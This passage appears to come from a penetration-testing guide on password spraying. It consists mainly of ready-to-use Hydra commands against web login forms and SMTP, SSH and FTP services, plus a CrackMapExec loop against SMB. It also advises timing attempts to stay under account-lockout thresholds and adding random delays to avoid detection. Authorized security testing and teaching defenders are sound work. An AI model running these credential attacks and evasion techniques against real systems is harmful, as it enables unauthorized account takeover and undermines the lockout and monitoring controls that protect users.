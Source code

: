 **Using Hydra**

```bash
# HTTP POST form
hydra -L users.txt -p 'Spring2023!' example.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

#### Other Common Protocols

**SMTP**

```bash
hydra -L users.txt -p 'Spring2023!' smtp://mail.example.com
```

**SSH**

```bash
hydra -L users.txt -p 'Spring2023!' ssh://10.10.10.10
```

**FTP**

```bash
hydra -L users.txt -p 'Spring2023!' ftp://10.10.10.10
```

### Executing a Safe Password Spray

#### Time-Based Approach

To avoid triggering account lockouts, spread attempts across time:

1. Determine the lockout threshold (e.g., 5 attempts)
2. Determine the observation window (e.g., 30 minutes)
3. Use a single password against all accounts
4. Wait for the observation window to reset
5. Try the next password

```bash
# Example execution timeline
# 09:00 - Spray Password1 against all accounts
# 09:30 - Wait for lockout counter to reset
# 10:00 - Spray Welcome1 against all accounts
```

#### Jitter-Based Approach

Add randomness to your attempts to avoid detection:

```bash
# Using random delays between attempts
for user in $(cat users.txt); do
    crackmapexec smb 172.16.5.5 -u $user -p 'Spring2023!'
    sleep $(( ( RANDOM % 10 )  + 1 ))
done
```
